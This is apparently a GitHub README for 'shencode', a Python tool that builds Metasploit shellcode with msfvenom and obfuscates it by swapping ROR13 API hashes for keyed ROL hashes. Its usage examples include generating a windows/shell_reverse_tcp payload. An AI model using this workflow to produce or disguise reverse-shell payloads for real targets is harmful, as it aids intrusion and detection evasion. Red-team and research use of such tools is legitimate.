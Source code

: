 # shencode
automation script for creating and obfuscating metasploit shellcode

![[shencode-2.png]]

## Features

### Version 0.2

- build shellcode with msfvenom
- searching for hashed Windows API functions
- change ROR13 Hash to ROL Hash with individual Key
- Raw and formatted output (C++,C#, C inline ASM, Powershell, Python, Hex)
- Added a subparser
- choose between building a shellcode and use an existing one
- (more) object oriented rewrite for better module integration

## ToDo

- chaining commands for better integration
- write shellcode in a template file (.cpp)
- automatical compile feature
- integrate more frameworks
- integrate more encoder
- Use PATH for better msfvenom integration

## How to use

### creating shellcode

`python shencode.py create --payload windows/shell_reverse_tcp --lhost 127.0.0.1 --lport 4443`

### encode shellcode

`python shencode.py encode --filename sc-120824-120101.bin --key 33 [--decompile] [--showmod]`

### output in different styles

`python.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

## Config

Please change the metasploit path in line 8. This will be fixed in the future.

`msfvenom_path = "c:\\metasploit-framework\\bin\\msfvenom.bat"`

## Parameter


| Command  | Subcommand  | Description                                                        |
| -------- | ----------- | ------------------------------------------------------------------ |
| create   |             | create a shellcode using msfvenom                                  |
|          | --payload   | payload to use e.g. windows/shell_reverse_tcp                      |
|          | --lhost     | LHOST Argument                                                     |
|          | --lport     | LPORT Argument                                                     |
| encode   |             | encode windows function hashes to ROL                              |
|          | --filename  | raw input file with shellcode                                      |
|          | --key       | ROL key for encoding                                               |
|          | --decompile | decompile modified bytes                                           |
|          | --showmod   | display modifications                                              |
| --output |             | formatting the shellcode in C, Casm, C#, Powershell, python or hex |

## Credits

The encoding part is initially taken from [bordergate.co.uk](https://www.bordergate.co.uk/function-name-hashing/). Great work!
